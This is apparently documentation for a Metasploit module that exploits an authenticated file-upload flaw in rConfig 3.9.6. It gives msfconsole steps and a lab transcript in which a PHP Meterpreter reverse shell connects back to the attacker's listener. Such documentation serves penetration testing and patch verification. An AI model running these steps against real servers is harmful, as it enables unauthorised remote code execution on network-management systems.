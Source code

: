 ## Vulnerable Application

### Description

This module allows an attacker with a privileged rConfig account to start a reverse shell due to an
arbitrary file upload vulnerability in `/lib/crud/vendors.crud.php`. Then, the uploaded payload can be
triggered by a call to `images/vendor/<payload_file>.php`

### Installation

Vulnerable versions of rConfig can be downloaded from [here](https://www.rconfig.com/download/). Then,
help yourself with [this](https://help.rconfig.com/gettingstarted/installation) installation guide.
You can also use this [docker file](https://hub.docker.com/r/libyerman/rconfig)
(as long as it is not updated and remains a 3.9.6 version of rConfig)

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of rConfig web server is different from `/`
6. `check` to check if the targeted rConfig server is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on CentOS 7 with rConfig 3.9.6. See the following output :

```
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set rhost 192.168.37.133
rhost => 192.168.37.133
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set username admin
username => admin
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set password admin
password => admin
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'oppkr.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.37.133
[+] Deleted oppkr.php
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.133:54806) at 2021-06-24 09:44:24 -0500

meterpreter > getuid
Server username: apache (48)
meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 3.10.0-1160.31.1.el7.x86_64 #1 SMP Thu Jun 10 13:32:12 UTC 2021 x86_64
Meterpreter : php/linux
```
